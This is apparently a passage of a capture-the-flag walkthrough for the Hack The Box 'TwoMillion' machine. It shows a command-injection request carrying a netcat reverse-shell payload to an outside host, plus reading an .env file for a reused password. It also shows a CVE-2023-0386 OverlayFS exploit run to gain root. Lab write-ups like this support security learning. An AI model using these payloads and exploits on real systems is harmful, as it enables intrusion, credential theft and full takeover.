Not sure what type of script is running behind, but at least, I can guess that there must be a script which is taking `username` and build `ovpn` file.

Assuming that the script is either `python` or `shell` script, the command line would be

```bash
./api_generate.sh bokchee

(OR)

python ./api_generate.py bokchee
```

What if I try command injection here.
I can make it happen by adding `; id` behind the `username` value.

```http
POST /api/v1/admin/vpn/generate HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://2million.htb/home
Connection: keep-alive
Cookie: PHPSESSID=1t2kauenpvurljdusta8kbu5dt
Content-Type: application/json
Upgrade-Insecure-Requests: 1
Content-Length: 29

{"username": "bokchee; id"  }

===

HTTP/1.1 200 OK
Server: nginx
Date: Sun, 22 Dec 2024 21:29:27 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 0
```

Unluckily, it doesn't return anything. Let's comment out the latter unseen potential command line using `#`.



It's working! Now I can run a command remotely.
With this, I can open a reverse shell for sure.

```http
POST /api/v1/admin/vpn/generate HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://2million.htb/home
Connection: keep-alive
Cookie: PHPSESSID=1t2kauenpvurljdusta8kbu5dt
Content-Type: application/json
Upgrade-Insecure-Requests: 1
Content-Length: 31

{"username": "bokchee; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.14 9000 >/tmp/f #"  }
```

Then, let's open a listener and take the reponse.

```shell
┌──(kali㉿kali)-[~/htb]
└─$ nc -nlvp 9000               
listening on [any] 9000 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.221] 38766
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ whoami
www-data
```

Now I got a `www-data`'s shell.


# Shell as `admin`

### Enumeration

First, let's see what's in the web root directory.

```bash
$ ls -al
total 56
drwxr-xr-x 10 root root 4096 Dec 23 06:20 .
drwxr-xr-x  3 root root 4096 Jun  6  2023 ..
-rw-r--r--  1 root root   87 Jun  2  2023 .env
-rw-r--r--  1 root root 1237 Jun  2  2023 Database.php
-rw-r--r--  1 root root 2787 Jun  2  2023 Router.php
drwxr-xr-x  5 root root 4096 Dec 23 06:20 VPN
drwxr-xr-x  2 root root 4096 Jun  6  2023 assets
drwxr-xr-x  2 root root 4096 Jun  6  2023 controllers
drwxr-xr-x  5 root root 4096 Jun  6  2023 css
drwxr-xr-x  2 root root 4096 Jun  6  2023 fonts
drwxr-xr-x  2 root root 4096 Jun  6  2023 images
-rw-r--r--  1 root root 2692 Jun  2  2023 index.php
drwxr-xr-x  3 root root 4096 Jun  6  2023 js
drwxr-xr-x  2 root root 4096 Jun  6  2023 views
```

Let's read `index.php`.

```php
$ cat index.php
<?php 

session_start();

//error_reporting(E_ALL);
//ini_set('display_errors',1);

spl_autoload_register(function ($name){
    if (preg_match('/Controller$/', $name))
    {
        $name = "controllers/${name}";
    }
    else if (preg_match('/Model$/', $name))
    {
        $name = "models/${name}";
    }
    include_once "${name}.php";
});

$envFile = file('.env');
$envVariables = [];
foreach ($envFile as $line) {
    $line = trim($line);
    if (!empty($line) && strpos($line, '=') !== false) {
        list($key, $value) = explode('=', $line, 2);
        $key = trim($key);
        $value = trim($value);
        $envVariables[$key] = $value;
    }
}


$dbHost = $envVariables['DB_HOST'];
$dbName = $envVariables['DB_DATABASE'];
$dbUser = $envVariables['DB_USERNAME'];
$dbPass = $envVariables['DB_PASSWORD'];


$database = new Database($dbHost, $dbUser, $dbPass, $dbName);
$database->connect();

$router = new Router();

// Home Routes
$router->new('GET', '/', 'HomeController@index');

$router->new('GET', '/invite', 'HomeController@invite');
$router->new('GET', '/register', 'AuthController@get_register');
$router->new('GET', '/login', 'AuthController@get_login');
$router->new('GET', '/logout', 'AuthController@logout');
$router->new('GET', '/404', 'HomeController@not_found');

$router->new('GET', '/home', 'HomeController@home');
$router->new('GET', '/home/changelog', 'HomeController@change_log');
$router->new('GET', '/home/access', 'HomeController@access');
$router->new('GET', '/home/rules', 'HomeController@rules');

// API Routes
$router->new('GET', '/api', 'APIController@get_version');
$router->new('GET', '/api/v1', 'APIController@get_routes');

$router->new('POST', '/api/v1/invite/how/to/generate', 'InviteController@how_to_generate');
$router->new('POST', '/api/v1/invite/generate', 'InviteController@generate');
$router->new('POST', '/api/v1/invite/verify', 'InviteController@verify');

$router->new('GET', '/api/v1/user/auth', 'AuthController@is_authenticated');
$router->new('POST', '/api/v1/user/register', 'AuthController@post_register');
$router->new('POST', '/api/v1/user/login', 'AuthController@post_login');

$router->new('GET', '/api/v1/user/vpn/generate', 'VPNController@generate_user_vpn');
$router->new('GET', '/api/v1/user/vpn/regenerate', 'VPNController@regenerate_user_vpn');
$router->new('GET', '/api/v1/user/vpn/download', 'VPNController@generate_user_vpn');

$router->new('GET', '/api/v1/admin/auth', 'AdminController@is_admin');
$router->new('POST', '/api/v1/admin/vpn/generate', 'VPNController@admin_vpn');
$router->new('PUT', '/api/v1/admin/settings/update', 'AdminController@update_settings');

$response = $router->match();

die($response);
```

It looks like it's loading `.env` file to load DB credentials.
Let's read `.env` file.

```bash
$ cat .env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

Here I can find `admin`'s credential : `SuperDuperPass123`

I tried `mysql -u admin -p` with the found credential, but it didn't work.
Instead, I checked if there's a user `admin` in the system.

```bash
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/bin/bash
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:114:120:MySQL Server,,,:/nonexistent:/bin/false
admin:x:1000:1000::/home/admin:/bin/bash
memcache:x:115:121:Memcached,,,:/nonexistent:/bin/false
_laurel:x:998:998::/var/log/laurel:/bin/false
```

There is a user `admin`. Let's switch user to `admin`.

```bash
$ su admin
Password: SuperDuperPass123
whoami
admin
id
uid=1000(admin) gid=1000(admin) groups=1000(admin)
```

I got `admin`'s shell.


# Shell as `root`

### Enumeration

This time, let's check if there's any mail received.

```bash
admin@2million:/var/mail$ cat admin
cat admin
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather
```

It talks about needing to patch the OS as well, and mentions a OverlayFS / FUSE CVE.

### Identify vulnerability

TwoMillion is running Ubuntu 22.04 with the kernel 5.15.70:

```bash
admin@2million:~$ uname -a
Linux 2million 5.15.70-051570-generic #202209231339 SMP Fri Sep 23 13:45:37 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
admin@2million:~$ cat /etc/lsb-release 
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=22.04
DISTRIB_CODENAME=jammy
DISTRIB_DESCRIPTION="Ubuntu 22.04.2 LTS"
```

A search for “linux kernel vulnerability fuse overlayfs” limited to the last year returns a bunch of stuff about CVE-2023-0386:



Among the references, I chose the first one:
https://securitylabs.datadoghq.com/articles/overlayfs-cve-2023-0386/

### CVE-2023-0386

Here's the explanation how the exploit works;

CVE-2023-0386 lies in the fact that when the kernel copied a file from the overlay file system to the "upper" directory, it did not check if the user/group owning this file was mapped in the current [user namespace](https://securitylabs.datadoghq.com/articles/container-security-fundamentals-part-2/#user-namespace). This allows an unprivileged user to smuggle an SUID binary from a "lower" directory to the "upper" directory, by using OverlayFS as an intermediary.

The exploit works as follows:

1. Create a FUSE (File System in User Space) file system. This virtual file system is backed by a piece of code making it appear as if it contains a single binary that is owned by root (UID 0) and has the SUID bit set. This step requires FUSE, as we do not have the permissions to `chmod root:root` and `chmod +s` on the real file system (which, as explained in [a previous section](https://securitylabs.datadoghq.com/articles/overlayfs-cve-2023-0386/#the-suid-bit), requires the user to be root).
2. Enter a new "user" and "mount" namespace using the `unshare` system call. The sole purpose of this step is to allow us to use `mount` in the next step to create our overlay file system (which normally requires the user to be root).
3. Create a new OverlayFS mount, with:

- as the "lower" directory, the FUSE file system created in step 1
- as the "upper" directory, a world-writable directory such as `/tmp`.

4. Trigger a copy of our SUID binary from the overlay file system to the "upper" directory—for instance, by running `touch` on it. The kernel will:

- catch the file change on the overlay file system
- read the malicious binary from our FUSE file system
- consider that it has the SUID bit set and is owned by root (UID 0), since our FUSE file system tells it so
- **write the file with the same properties** to the "upper" directory, in our case `/tmp`.

At this point, we are left with a SUID binary owned by root in /tmp—all we need to do is exit the user namespace created in step 2 and execute the binary, allowing us to escalate to super admin privileges.

Let's use the following PoC repo:
https://github.com/sxlmnwb/CVE-2023-0386

Let's transfer the exploit first.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ scp CVE-2023-0386.zip admin@10.10.11.221:~/CVE-2023-0386.zip
admin@10.10.11.221's password: 
CVE-2023-0386.zip                        100%   11KB   0.4KB/s   00:28 
```

Then, I need to open two terminals for the exploit.

The first terminal:

```bash
admin@2million:~/CVE-2023-0386-main$ make all
gcc fuse.c -o fuse -D_FILE_OFFSET_BITS=64 -static -pthread -lfuse -ldl
fuse.c: In function ‘read_buf_callback’:
fuse.c:106:21: warning: format ‘%d’ expects argument of type ‘int’, but argument 2 has type ‘off_t’ {aka ‘long int’} [-Wformat=]
  106 |     printf("offset %d\n", off);
      |                    ~^     ~~~
      |                     |     |
      |                     int   off_t {aka long int}
      |                    %ld
fuse.c:107:19: warning: format ‘%d’ expects argument of type ‘int’, but argument 2 has type ‘size_t’ {aka ‘long unsigned int’} [-Wformat=]
  107 |     printf("size %d\n", size);
      |                  ~^     ~~~~
      |                   |     |
      |                   int   size_t {aka long unsigned int}
      |                  %ld
fuse.c: In function ‘main’:
fuse.c:214:12: warning: implicit declaration of function ‘read’; did you mean ‘fread’? [-Wimplicit-function-declaration]
  214 |     while (read(fd, content + clen, 1) > 0)
      |            ^~~~
      |            fread
fuse.c:216:5: warning: implicit declaration of function ‘close’; did you mean ‘pclose’? [-Wimplicit-function-declaration]
  216 |     close(fd);
      |     ^~~~~
      |     pclose
fuse.c:221:5: warning: implicit declaration of function ‘rmdir’ [-Wimplicit-function-declaration]
  221 |     rmdir(mount_path);
      |     ^~~~~
/usr/bin/ld: /usr/lib/gcc/x86_64-linux-gnu/11/../../../x86_64-linux-gnu/libfuse.a(fuse.o): in function `fuse_new_common':
(.text+0xaf4e): warning: Using 'dlopen' in statically linked applications requires at runtime the shared libraries from the glibc version used for linking
gcc -o exp exp.c -lcap
gcc -o gc getshell.c
admin@2million:~/CVE-2023-0386-main$ ls
exp    fuse    gc          Makefile  README.md
exp.c  fuse.c  getshell.c  ovlcap    test
admin@2million:~/CVE-2023-0386-main$ ./fuse ./ovlcap/lower ./gc
[+] len of gc: 0x3ee0
mkdir: File exists
fuse: mountpoint is not empty
fuse: if you are sure this is safe, use the 'nonempty' mount option
fuse_mount: File exists
```

The second terminal:

```bash
admin@2million:~/CVE-2023-0386-main$ ./exp
uid:1000 gid:1000
[+] mount success
total 8
drwxrwxr-x 1 root   root     4096 Dec 23 07:37 .
drwxrwxr-x 6 root   root     4096 Dec 23 07:37 ..
-rwsrwxrwx 1 nobody nogroup 16096 Jan  1  1970 file
[+] exploit success!
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@2million:~/CVE-2023-0386-main# id
uid=0(root) gid=0(root) groups=0(root),1000(admin)
```

I got root!

